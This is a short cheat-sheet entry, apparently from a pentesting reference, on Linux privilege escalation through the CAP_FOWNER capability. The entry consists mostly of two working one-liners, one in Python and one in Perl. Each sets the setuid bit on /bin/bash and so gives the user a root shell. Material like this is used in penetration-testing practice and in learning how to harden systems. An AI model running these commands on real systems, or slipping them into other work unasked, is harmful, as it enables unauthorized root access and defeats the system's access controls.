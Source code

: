 # PrivEsc via Capabilities

### CAP\_FOWNER

This means that it's possible to change the permission of any file.

```bash
# Example with binary:
python3 -c 'import os;os.chmod("/bin/bash",0o4755)'
perl -e 'my $mode = 04755; chmod $mode, "/bin/bash";'
```
